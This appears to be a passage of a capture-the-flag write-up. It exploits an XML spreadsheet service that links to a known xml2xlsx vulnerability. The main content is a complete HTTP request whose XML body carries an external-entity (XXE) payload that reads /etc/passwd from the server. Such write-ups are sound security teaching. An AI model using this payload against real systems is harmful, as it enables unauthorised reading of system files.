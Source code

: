 > https://security.snyk.io/vuln/SNYK-PYTHON-XML2XLSX-5881344

![](attachment/e1efedd3465bd2650e920c71165615c6.png)

Capture a valid request and modify it

```http
POST /createSheets HTTP/1.1
Host: challenge.ctf.games:30359
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/xml
Content-Length: 396
Origin: http://challenge.ctf.games:30359
Connection: close
Referer: http://challenge.ctf.games:30359/createSheets
DNT: 1
Sec-GPC: 1


 <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]> <sheet title="Dream Sheets">  
	<row><cell>Bed Size</cell><cell>&ent;</cell></row> 
	<row><cell>Color</cell><cell>#ffffff</cell></row> 
	<row><cell>Thread Count</cell><cell>400</cell></row>
	<row><cell>Quantity</cell><cell>1</cell></row>
	</sheet>
```

![](attachment/5700f09dd27c685b76402a55b41060e5.png)
